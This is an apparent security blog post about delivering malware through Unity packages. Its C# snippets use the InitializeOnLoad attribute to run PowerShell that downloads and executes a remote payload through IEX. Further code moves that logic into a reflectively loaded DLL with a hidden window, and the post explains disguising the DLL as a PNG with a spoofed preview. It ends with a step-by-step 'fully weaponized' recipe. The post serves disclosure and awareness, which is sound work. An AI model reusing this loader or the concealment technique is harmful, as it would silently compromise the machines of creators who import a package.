




<!-- markdownlint-disable no-inline-html -->
## Context

I was recently talking to a handful of online friends about UGC ([user generated content](https://en.wikipedia.org/wiki/User-generated_content)) creation within the Unity ecosystem.
One of them jokingly mentioned how someone they knew was "[ratted](https://www.checkpoint.com/cyber-hub/threat-prevention/what-is-remote-access-trojan/)" by downloading an asset, that is usually behind a paywall, for free.
Ratted from a Unity package?
They're just glorified zip archives.
It was later clarified that this never happened, but it got me thinking: "is it _actually_ possible to compromise someone via a Unity package?"

## What is the Unity Engine

The Unity engine is a general purpose, cross platform 2D/3D game engine originally developed in 2005.
Over time, more and more production studios and amateur developers have adopted the engine.
Popular games such as Among Us, Subnautica, The Forest, VRChat, and even Pokemon GO are made using the Unity engine.

## What are Unity Packages

In the context of the Unity ecosystem, there are two different ways you can utilize pre-made, existing assets (3D models, materials, shaders, etc.) and logic (game SDKs, plugins, etc.).
The official way is to download paid, or free, assets from Unity's own [AssetStore](https://assetstore.unity.com/).
However, the process to publish can be lengthy and [requires a review of your package by Unity](https://assetstore.unity.com/publishing/publish-and-sell-assets).
The unofficial way is to obtain a .unitypackage from outside of the Unity AssetStore and simply [import it to your Unity Editor](https://docs.unity3d.com/6000.1/Documentation/Manual/AssetPackages.html).
While it is usually easier to circumvent the Unity store and obtain packages yourself (either for free or behind a paywall), this comes at a significant risk as there is no way for Unity to review packages that originate from outside of their store.
This risk lies in the fact that these unofficial packages can be used to distribute malicious C# scripts.

## Utilization of C# Within Unity

C# is the primary way of adding functionality and logic to games created using Unity.
It allows the same scripts to be used on multiple different operating systems with minimal difference.
While Unity does provide its own native API for interacting with the game engine, other operations are largely left up to developers.
This can include saving progress within a game locally or authenticating to a remote server for games that support multiplayer.

### Statistical Usage of Unity

So far, we have looked at Unity from the context of a game developer.
What about someone who wants to create assets for games that support UGC?

Unity is by far the most prominent game engine used in 2024, [accounting for 51% of all new game releases](https://web.archive.org/web/20250427205535/https://vginsights.com/assets/reports/The_Big_Game_Engines_Report_of_2025.pdf).
In addition to this, Unity is the most easily accessible engines for [UGC creation](https://docs.unity.com/ugs/manual/user-generated-content/manual/overview).
This is bolstered by toolchains built specifically for UGC.

### C# in the Editor's Context

For games that are built within Unity and provide open-ended creativity to its userbase, users usually create UGC, still within Unity, and upload it directly to the game.
This allows essentially infinite customization for characters, worlds, and almost any other asset you can think of.

How do games repurpose Unity as their own UGC launchpad?
They create specialized SDKs that work within the confines of the Unity Editor itself.
For example, [VRChat has a wide ecosystem of official](https://creators.vrchat.com/sdk/) and unofficial tools for in-game 3D model/avatar creation.
This completely flips the dynamic of the engine and makes it almost a game within itself.

## (Un)Official Package Distribution for UGC

Taking this into account, the majority of users who utilize Unity as a UGC launchpad have no interest or knowledge on how to get their assets in the official AssetStore.
This leads to small time creators and asset makers to utilize platforms like Patreon, Ko-fi, or Gumroad to distribute their assets.
While this sounds great in theory allowing an ecosystem of asset creators to flourish, this comes at significant risk as it becomes difficult to make sure the assets you are downloading are not malicious.

## The Horror of InitializeOnLoad

Remember how the Unity Editor can have SDKs specifically created for it instead of _just_ for games made _with_ Unity?
SDKs are the proper, managed way to have logic run within the editor.
However, you can have one-off C# script(s) anywhere in your Unity project hook into the editor.
This is usually used by advanced UGC projects for automation of repetitive tasks or version tracking.

There is one very specific attribute exposed by the editor that any script can hook into: [`InitializeOnLoad`](https://docs.unity3d.com/ScriptReference/InitializeOnLoadAttribute.html).
You may be already able to guess what this does, it "allows you to initialize an Editor class when Unity loads, and when your scripts are recompiled."
While this is almost exclusively used for legitimate purposes, I had a thousand thoughts immediately race through my head on how this could be abused.

A typical `InitializeOnLoad`-enabled class looks like this:

`Startup.cs`


<details>
  <summary>Expand for code snippet</summary>


```cs
using UnityEngine;
using UnityEditor;

[InitializeOnLoad]
public class Startup {
    static Startup()
    {
        Debug.Log("Up and running");
    }
}
```


</details></br>


This doesn't look too bad.
It's just some logging at start up.
Let's not forget that Unity gives you unfettered access to all of C#'s abilities.
What might those abilities include?
A native HTTP client and the ability to start any process, including Powershell.

`Startup.cs`


<details>
  <summary>Expand for code snippet</summary>


```cs
using Unityditor;
using System.Diagnostics;

[InitializeOnLoad]
public class Startup {
  static Startup()
  {
    UnityEngine.Debug.Log("Up and running");
    ProcessStartInfo startInfo = new ProcessStartInfo("powershell.exe") {
      Arguments = "(wget http://localhost:8000/payload.txt).Content | IEX",
      RedirectStandardOutput = true,
      RedirectStandardError = true,
      UseShellExecute = false,
      CreateNoWindow = true,
    };

    using (Process process = new Process { StartInfo = startInfo }) {
      process.Start();
      process.WaitForExit();
    };
  }
}
```


</details></br>


That's... pretty bad.
The silver lining here is that all C# scripts in Unity need to be open source as they are compiled by the editor on the fly at various points.
Surely, you can't obfuscate away this logic?

## Obfuscating Logic Using DLLs

Since we have full access to C# and are essentially able to create our own program, this means that we can dynamically load DLLs in the script and execute their functions.
We can move the suspicious looking logic of making HTTP requests and starting Powershell to the DLL (while specifically compiling for Unity and/or game SDK).

`Downloader.cs` (DLL)


<details>
  <summary>Expand for code snippet</summary>


```cs
using System;
using System.IO;
using System.Diagnostics;
using System.Net.Http;
using System.Threading.Tasks;

namespace HttpDownloaderLib {
    public class Downloader {
        private static readonly HttpClient client = new HttpClient();

        private static async Task<string> GetRemoteContent(string url) {
            try {
                HttpResponseMessage response = await client.GetAsync(url);
                response.EnsureSuccessStatusCode();

                string content = await response.Content.ReadAsStringAsync();
                return content;
            }
            catch (Exception ex) {
                throw new Exception("Failed to get remote content", ex);
            }
        }

        public static async Task ExecuteRemoteContent(string url) {
            string result = await GetRemoteContent(url);

            ProcessStartInfo startInfo = new ProcessStartInfo("powershell.exe") {
                Arguments = result,
                RedirectStandardOutput = true,
                RedirectStandardError = true,
                UseShellExecute = false,
                CreateNoWindow = true
            };

            using (Process process = new Process { StartInfo = startInfo }) {
                process.Start();
                process.WaitForExit();
            };
        }
    }
}
```


</details></br>


`Startup.cs` (Unity script)


<details>
  <summary>Expand for code snippet</summary>


```cs
using System;
using System.IO;
using System.Reflection;
using System.Threading.Tasks;
using UnityEngine;
using UnityEditor;

[InitializeOnLoad]
public class Startup {
    static Startup() {
        UnityEngine.Debug.Log("Up and running");
        EditorApplication.update += RunAsyncDownloader;
    }

    private static async void RunAsyncDownloader() {
        EditorApplication.update -= RunAsyncDownloader;

        string dllPath = Path.Combine(Application.dataPath, "HttpDownloaderLib.dll");
        if (File.Exists(dllPath)) {
            try {
                Assembly loadedAssembly = Assembly.LoadFrom(dllPath);
                Type downloaderType = loadedAssembly.GetType("HttpDownloaderLib.Downloader");
                MethodInfo method = downloaderType.GetMethod("ExecuteRemoteContent", BindingFlags.Public | BindingFlags.Static);
                
                object[] args = new object[] { "http://localhost:8000/payload.txt" };
                object taskObj = method.Invoke(null, args);
            } catch (Exception ex) {
                UnityEngine.Debug.LogError("Error invoking DLL method: " + ex);
            }
        }
        else {
            UnityEngine.Debug.LogError("DLL not found: " + dllPath);
        }   
    }
}
```


</details></br>


While the naming conventions of files and classes might be extremely obvious in these examples, making the files masquerade as required SDK assets and using some obfuscation would make this much more difficult to detect as a normal Unity user.

## It Gets Worse

How exactly would a normal Unity user look at the sorts of C# scripts and DLL files they're importing?
Well, they really can't.
While the .unitypackage file format is essentially a glorified zip archive, the internal format of the zip is extremely awkward to navigate and gets  confusing, very fast.
Hundreds or thousands of random UUID-named folders with files only named "asset."


</br>
<details>
  <summary>Internal Structure of Unity Package</summary>
    </img>
    </a>
</details></br>


Okay, let's not have users attempt to understand extracting zip files and wandering around a thousand random folders for an hour.
Unity provides a nice preview of the files you're able to import from a Unity package.
However, there are two critical issues with the flow as it currently stands:

 1. You are not able to view the contents of files in the package, only their thumbnail preview (if available), file name, extension, and directory structure.
 2. Packages that have a large amount of files or folders extend beyond the normal preview window and must be manually scrolled down to view.


</br>
<details>
  <summary>Unity Package Import Preview</summary>
    </img>
    </a>
</details></br>


In addition to this, Unity does not provide a warning if you are importing script files.

## It Somehow Gets Even Worse

Fine, since the import preview is the user's last line of defence, just don't import anything with sketchy file extensions.
Well, what if I just rename the DLL to something else, like .png?
It's loaded dynamically, the file type doesn't make a difference.
An astute user will check each file's preview and when our phony-png file shows up, the game is over.

This **HAS** to the final, true line of defence, right?
Right?

Wrong.
You can spoof file previews within packages.

Simply extracting the archive, manually placing a `preview.png` file in the target asset's folder, and re-zipping the archive produces a completely valid package with a spoofed preview (and file extension).


</br>
<details>
  <summary>DLL with spoofed PNG file preview</summary>
    </img>
    </a>
</details></br>


## Putting It All Together

A fully weaponized Unity package requires:

  1. A tiny `InitializeOnLoad` C# script that dynamically loads a DLL
  2. A DLL to execute... anything (eg, grab a remote payload and execute via Powershell)
  3. Manual manipulation of the Unity package container to spoof a PNG file preview for the DLL (or any other data file)


</br>
  </img>
  </a>
</br>

